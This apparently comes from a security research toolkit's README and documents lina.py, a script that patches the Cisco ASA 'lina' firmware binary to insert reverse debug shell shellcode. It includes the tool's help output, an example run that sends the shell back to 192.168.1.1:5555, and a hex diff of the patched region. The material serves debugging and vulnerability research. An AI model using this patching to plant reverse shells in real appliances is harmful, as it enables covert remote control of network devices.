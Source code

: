## lina.py

`lina.py` is used to patch the main Cisco ASA executable a.k.a. `lina`. It
is mainly used by `unpack_repack_bin.sh` and `unpack_repack_qcow2.sh`.

```
$ lina.py -h
usage: lina.py [-h] [-c CBHOST] [-p CBPORT] [--log-port CBLOGPORT]
               [-i TARGET_INDEX] [-f LINA_FILE] [-b BIN_NAME]
               [-o LINA_FILE_OUT] [--hook] [-v] [-d TARGET_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -c CBHOST             Attacker or debugger IP addr for reverse shell
  -p CBPORT             Attacker or debugger port for reverse shell
  --log-port CBLOGPORT  Port for sending hook logs
  -i TARGET_INDEX       Index of the target (use -l to list them all)
  -f LINA_FILE          Input lina file
  -b BIN_NAME           Input bin name
  -o LINA_FILE_OUT      Output lina file
  --hook                Insert lina hooks
  -v                    Display more info
  -d TARGET_FILE        JSON db name
```

We can use it as a standalone tool to patch `lina` to contain a debug shell. We
use the `asadbg.json` from [asadbg](https://github.com/nccgroup/asadbg) as it
already contains addresses required. Otherwise you may need to use
[idahunt](https://github.com/nccgroup/idahunt) to find them first.

```
$ lina.py -c 192.168.1.1 -p 5555 -f _asa924-k8.bin.extracted/rootfs/asa/bin/lina -b asa924-k8.bin -o lina_patched -d /path/to/asadbg/asadb.json 
[lina] WARN: No index specified. Will guess based on lina path...
[lina] Using index: 0 for asa924-k8.bin
[lina] Input file: _asa924-k8.bin.extracted/rootfs/asa/bin/lina
[lina] Size of clean lina: 43386588 bytes
[lina] Patching lina offset: 0x3db00 with len = 445 bytes
[lina] Output file: lina_patched
```

We can check that it just patched one function with the reverse debug shell
shellcode:

```
$ xxd _asa924-k8.bin.extracted/rootfs/asa/bin/lina > b1.hex
$ xxd lina_patched > b2.hex
$ diff b1.hex b2.hex 
15793,15820c15793,15820
< 003db00: 5589 e557 5653 81ec 8c05 0000 8b7d 208d  U..WVS.......} .
< 003db10: 45f0 c745 f001 0000 0066 c745 b0c1 1085  E..E.....f.E....
< 003db20: ffc7 45b4 0400 0000 8945 b866 c745 bc00  ..E......E.f.E..
< 003db30: 00c7 45c0 0000 0000 c745 c400 0000 0074  ..E......E.....t
< 003db40: 088b 4520 66c7 0000 008b 7524 85f6 7409  ..E f.....u$..t.
< 003db50: 8b55 24c7 0200 0000 008d 95f4 feff ff31  .U$............1
< 003db60: db89 d789 d8b9 2000 0000 f3ab c785 f4fe  ...... .........
< 003db70: ffff 0100 0000 c785 50ff ffff ffff ffff  ........P.......
< 003db80: 8b45 0889 1424 8985 68ff ffff e8bf 3525  .E...$..h.....5%
< 003db90: 01c7 85a4 faff ff00 0000 0085 c089 85a0  ................
< 003dba0: faff ff0f 849f 0400 008b 4018 8db5 38fe  ..........@...8.
< 003dbb0: ffff 89f7 8904 24e8 24a9 2501 b92f 0000  ......$.$.%../..
< 003dbc0: 0089 85b0 faff ff89 d8f3 abc7 8538 feff  .............8..
< 003dbd0: ff00 0000 008b 95a0 faff ff8b 7d08 8b42  ............}..B
< 003dbe0: 1889 853c feff ff8b 4244 897c 2404 c785  ...<....BD.|$...
< 003dbf0: 4cfe ffff ffff ffff c785 48fe ffff ffff  L.........H.....
< 003dc00: ffff 8985 44fe ffff 8934 24e8 e0f8 ffff  ....D....4$.....
```